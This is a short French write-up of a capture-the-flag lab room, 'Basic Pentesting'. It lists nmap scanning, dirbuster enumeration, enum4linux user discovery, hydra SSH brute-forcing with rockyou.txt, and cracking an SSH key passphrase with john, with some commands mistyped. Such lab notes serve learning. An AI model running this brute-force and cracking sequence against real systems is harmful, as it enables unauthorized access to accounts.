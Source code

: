 #   NOTES SUR LA ROOM BASIC-PENTESTING

1. Un scan de port : 
    nmap -sV -F @ip_CIBLE

2. On utilise  dirbuster
    * on lance dirbuster
    * Ensuite on indique le fichier qui contient la liste des repertoires à chercher. /usr/share/dirbuster/nom_fichier ou /usr/share wordlistts/dirbuster/

    La réponse est development

3. Pour avoir le username on utilise enum4linux : 
 _enum4linux -a 10.10.164.55_

On a deux noms d'utilisateurs : kay , jan.

4. Cherchons le password : 
On utilise hydra

hydra -L jan -P /usr/share/wordlist/rockyou.txt ssh://@IP

5- JOhn permet de retrouver le password à partir de la clé privée du password. 
Il suffit de faire : python /usr/share/john/ssh2.... nom_file_cle_prive >  file1

Ensuite on fait un 
 john --worldlist=/usr/share/wordlist/rockyou.txt file1

 Et on a la paraphase associée à la clé ssh de l'utilisateur unix 


 ENsuite on se logera en ssh sur la machine cible en utilisant ssh -i nom_file_cle_prive@IP
Et la paraphrase est la phrase donné par john